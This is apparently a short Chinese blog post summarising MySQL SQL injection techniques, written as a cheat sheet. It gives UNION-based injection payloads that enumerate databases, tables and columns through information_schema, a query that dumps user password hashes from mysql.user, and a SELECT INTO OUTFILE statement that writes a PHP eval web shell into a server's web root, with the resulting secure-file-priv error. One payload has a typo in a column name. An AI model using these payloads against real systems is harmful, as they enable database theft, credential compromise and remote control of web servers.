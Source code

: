 ```yaml
---
layout: post
title: "SQLin小结"
comments: false
description: ""
keywords: "mysql oracle"
---
```


# mysql

踩点、组装、投送、攻击、植入、控制、行动。

## 手动联合

在自带数据库库information_schema表schemata列SCHEMA_NAME查询库名

```sql
'union select schema_name from information_schema.schemata
```

table 表名查询 information_schema.tables

```sql
'union select tanle_name from information_schema.tables where table_schema = "数据库名字"
```

字段名字 information_schema.columns column_name

```sql
'union select column_name from information_schema.columns where  table_name="表名" and table_schema="xxx"
```

mysql.user 用户口令哈希

```sql
select user,password from mysql.user
```

***

## 写文件

```sql
select '<?php @eval($_POST[cmd]);?>' INTO OUTFILE 'D:/phpStudy/WWW/cmd.php';

ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
 ```



> 官方文档说明 --secure-file-priv=name Limit LOAD DATA, SELECT ... OUTFILE, and LOAD_FILE() to files within specified directory

